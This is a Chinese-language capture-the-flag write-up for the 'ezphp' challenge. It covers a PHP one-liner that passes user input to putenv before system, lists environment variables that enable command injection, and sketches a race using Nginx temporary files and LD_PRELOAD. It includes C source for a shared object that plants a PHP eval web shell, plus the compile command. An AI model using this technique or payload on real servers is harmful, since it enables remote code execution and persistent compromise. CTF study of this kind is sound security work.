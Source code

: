 ##  ezphp

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

考点：

1. Nginx 接收Fastcgi的响应过大或者request body过大时会缓存到临时文件

2. 当然也利用到了利用环境变量注入来RCE

参考：https://tttang.com/archive/1450/#toc_0x0b

总结下：

php中调用system本质上是调用了sh -c，在不同操作系统中：

- debian：sh→dash
- centos：sh→bash

总结：

- `BASH_ENV`：可以在`bash -c`的时候注入任意命令
- `ENV`：可以在`sh -i -c`的时候注入任意命令
- `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
- `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
- `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

但是题目就是P师傅没解决的debian系统

[看陆队的文章](https://tttang.com/archive/1384/#toc_0x04-conclusion)

Nginx对于请求的body内容会以临时文件的形式存储起来

大概思路是：

- nginx请求一个过大的body，当大于buffer时，会在/proc/self/fd目录下生成临时文件
- 在临时文件彻底删除前，竞争LD_PRELOAD包含 proc 目录下的临时文件

所以这个题：我们先传一个so文件进去，然后包含这个临时文件，就可以实现RCE

生成so文件

```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
unsetenv("LD_PRELOAD");
system("echo \"<?php eval(\\$_POST[cmd]);?>\" > /var/www/html/flag");
} 


```

编译一下

```
gcc -shared -fPIC exp.c -o exp.so
```
